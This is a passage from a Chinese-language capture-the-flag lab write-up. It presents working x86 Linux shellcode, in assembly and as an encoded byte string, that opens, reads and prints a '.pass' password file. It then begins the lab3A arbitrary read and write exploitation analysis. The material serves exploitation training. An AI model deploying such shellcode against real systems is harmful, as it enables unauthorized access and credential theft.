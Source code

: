 因为直接使用系统调用，所以linux上的shellcode比windows上好构造得多，只要了解系统调用的[传参方式](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html)，[照葫芦画瓢](http://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=push+0%0D%0Apush+0%0D%0Apush+0x73%0D%0Apush+0x7361702e%0D%0Axor+eax%2Ceax%0D%0Axor+ebx%2Cebx%0D%0Axor+ecx%2Cecx%0D%0Axor+edx%2Cedx%0D%0Amov+ebx%2Cesp%0D%0Amov+al%2C5%0D%0Aint+0x80%0D%0Amov+ebx%2Ceax%0D%0Alea+ecx%2C%5Besp-8%5D%0D%0Amov+dl%2C0x8%0D%0Amov+eax%2C3%0D%0Aint+0x80%0D%0Amov+ebx%2C1%0D%0Amov+al%2C4%0D%0Aint+0x80%0D%0Amov+al%2C1%0D%0Axor+ebx%2Cebx%0D%0Aint+0x80&arch=x86-32#assembly)即可：

```
push 0
push 0
push 0x73
push 0x7361702e
xor eax,eax
xor ebx,ebx
xor ecx,ecx
xor edx,edx
mov ebx,esp
mov al,5
int 0x80
mov ebx,eax
lea ecx,[esp-8]
mov dl,0x8
mov eax,3
int 0x80
mov ebx,1
mov al,4
int 0x80
mov al,1
xor ebx,ebx
int 0x80

Little endian:

"\x6a\x00\x6a\x00\x6a\x73\x68\x2e\x70\x61\x73\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x89\xe3\xb0\x05\xcd\x80\x89\xc3\x8d\x4c\x24\xf8\xb2\x08\xb8\x03\x00\x00\x00\xcd\x80\xbb\x01\x00\x00\x00\xb0\x04\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```

本地验证一哈：

![][9]

既然shellcode也有了，其他方式和上一题一样处理就ok了：

![][10]

## lab3A

该题目一眼看出可以利用read_number实现任意地址读，利用store_number实现任意地址写。虽然存储的数组data的类型为unsigned int，貌似只能读取向下的地址就无法泄露出data数组的起始地址，但该程序为32位正好是四个字节，大地址相加后也就是符合负数补码的规律，结合反汇编可以知道在调用read_number函数时data数组的起始地址和保存data参数栈地址的偏移为-0x28：


[1]: https://wx2.sinaimg.cn/thumb50/ee2fecafly1fown1sqkxsj20k3054aao.jpg
[2]: https://wx2.sinaimg.cn/thumb50/ee2fecafly1fown1tewd6j20k103274i.jpg
[3]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1u64qqj20k404yjrw.jpg
[4]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1utbtbj20jz032glt.jpg
[5]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1w7uo1j20jz031jrr.jpg
[6]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1wyv1aj20k0042dga.jpg
[7]: https://wx3.sinaimg.cn/thumb50/ee2fecafly1fown1y6sylj20k1087gmv.jpg
[8]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown1z5w0nj20k40623z9.jpg
[9]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown2000xuj20k007ggm7.jpg
[10]: https://wx3.sinaimg.cn/thumb50/ee2fecafly1fown20tsxlj20k203jmxj.jpg
[11]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown21yps7j20k5042q3i.jpg